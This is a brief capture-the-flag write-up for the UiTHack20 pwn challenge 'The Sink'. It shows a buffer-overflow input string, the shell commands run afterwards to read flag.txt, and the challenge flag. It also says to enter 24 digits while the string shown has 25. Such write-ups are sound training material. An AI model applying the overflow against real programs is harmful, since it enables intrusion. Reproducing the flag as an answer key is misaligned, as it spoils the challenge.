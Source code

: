 ># The Sink
>> Pwn - 200pts
>
>Can you drown in a sink? And how do you do it?
>
>
>Files: 
>[source code](./src/)

## Writeup

To get the flag you need to overflow the 16 char +8 bytes. You need to enter 24 digits. 

"0123456789012345678901234" 

Then you can use the terminal and enter

$ls

$cat flag.txt

``` 
UiTHack20{Its_just_the_wind!_i_think}
``` 
